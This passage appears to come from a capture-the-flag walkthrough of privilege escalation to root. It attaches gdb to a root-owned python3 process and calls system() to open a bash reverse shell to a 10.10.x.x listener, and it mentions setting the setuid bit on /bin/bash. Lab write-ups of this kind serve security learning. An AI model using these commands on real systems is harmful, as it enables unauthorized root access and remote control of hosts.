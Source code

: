 For Root:  
  

`export PID=$(ps aux | grep "^root.*python3" | awk '{print $2}')`

`gdb -p $PID`

`call (void)system("bash -c 'bash -i >& /dev/tcp/10.10.x.x/9001 0>&1'")`


## Post-Exploitation: Root

As always, when stuck we run linpeas.sh to get an overview of the system. There are files that belong to root and can be read by 'developer', because he is in the 'debug' group.

![](https://vato.cc/content/images/2022/07/linpeas_result.png)

gdb belong to root, but can be read by current user 

To exploit this, we need to find a process that runs as root and attach the gdb instance to that specific process (here: PID 706).

![](https://vato.cc/content/images/2022/07/gdb_1.png)

attach gdb to PID 706

Look up how to call random process from within gdb:

![](https://vato.cc/content/images/2022/07/gdb_2.png)

calling chmod u+s /bin/bash
